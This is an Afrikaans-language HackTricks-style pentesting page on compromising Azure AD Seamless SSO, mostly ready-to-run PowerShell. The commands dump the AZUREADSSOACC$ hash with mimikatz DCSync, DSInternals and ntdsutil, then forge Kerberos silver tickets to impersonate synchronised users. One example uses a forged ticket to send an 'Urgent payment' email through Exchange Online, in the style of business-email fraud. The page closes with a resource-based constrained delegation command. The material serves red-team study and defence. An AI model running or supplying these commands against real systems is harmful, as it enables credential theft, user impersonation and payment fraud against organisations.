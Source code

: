 # Az - Seamless SSO

{% hint style="success" %}
Leer en oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

[Van die dokumentasie:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) teken gebruikers outomaties **aan wanneer hulle op hul korporatiewe toestelle is** wat aan jou korporatiewe netwerk gekoppel is. Wanneer dit geaktiveer is, **hoef gebruikers nie hul wagwoorde in te tik om by Azure AD aan te meld nie**, en gewoonlik hoef hulle nie eens hul gebruikersname in te tik nie. Hierdie funksie bied jou gebruikers maklike toegang tot jou wolkgebaseerde toepassings sonder enige bykomende plaaslike komponente.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Basies teken Azure AD Seamless SSO **gebruikers aan** wanneer hulle **op 'n plaaslike domein-gekoppelde rekenaar is**.

Dit word ondersteun deur beide [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) en [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO gebruik **Kerberos** vir verifikasie. Wanneer dit gekonfigureer is, skep Azure AD Connect 'n **rekenaarrekening genaamd AZUREADSSOACC`$`** in plaaslike AD. Die wagwoord van die `AZUREADSSOACC$` rekening word **as gewone teks na Azure AD gestuur** tydens die konfigurasie.

Die **Kerberos-kaartjies** word **geënkripteer** met behulp van die **NTHash (MD4)** van die wagwoord en Azure AD gebruik die gestuurde wagwoord om die kaartjies te dekripteer.

**Azure AD** stel 'n **eindpunt** bloot (https://autologon.microsoftazuread-sso.com) wat Kerberos **kaartjies** aanvaar. 'n Domein-gekoppelde rekenaar se blaaier stuur die kaartjies na hierdie eindpunt vir SSO.

### Plaaslik -> wolk

Die **wagwoord** van die gebruiker **`AZUREADSSOACC$` verander nooit**. Daarom kan 'n domeinadministrateur die **hash van hierdie rekening** kompromitteer, en dit dan gebruik om **silwer kaartjies te skep** om met **enige plaaslike gebruiker gesinkroniseer** aan Azure te koppel:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Met die hash kan jy nou **silwer kaartjies genereer**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Om die silwer kaartjie te gebruik, moet die volgende stappe uitgevoer word:

1. **Begin die Blaaier:** Mozilla Firefox moet begin word.
2. **Konfigureer die Blaaier:**
* Navigeer na **`about:config`**.
* Stel die voorkeur vir [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na die gespesifiseerde [waardes](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Toegang tot die Webtoepassing:**
* Besoek 'n webtoepassing wat met die organisasie se AAD-domein geïntegreer is. 'n Algemene voorbeeld is [Office 365](https://portal.office.com/).
4. **Verifikasieproses:**
* By die aanmeldskerm moet die gebruikersnaam ingevoer word, en die wagwoordveld moet leeg gelaat word.
* Om voort te gaan, druk óf TAB óf ENTER.

{% hint style="success" %}
Dit omseil nie MFA as dit geaktiveer is nie
{% endhint %}

#### ~~Skep Kerberos-kaartjies vir slegs-wolk gebruikers~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

As die Active Directory-administrateurs toegang het tot Azure AD Connect, kan hulle **SID stel vir enige wolk-gebruiker**. Op hierdie manier kan Kerberos **kaartjies ook vir slegs-wolk gebruikers geskep word**. Die enigste vereiste is dat die SID 'n behoorlike [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) is.

{% hint style="danger" %}
Verandering van SID van slegs-wolk admin gebruikers is nou **geblokkeer deur Microsoft**.\
Vir inligting, kyk [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wolk via Hulpbron Gebaseerde Beperkte Delegasie <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Enigiemand wat rekenaarrekeninge (`AZUREADSSOACC$`) in die houer of OU waarin hierdie rekening is, kan bestuur, kan **'n hulpbron gebaseerde beperkte delegasie oor die rekening konfigureer en toegang daartoe kry**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**intekenplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repo's.

</details>
{% endhint %}

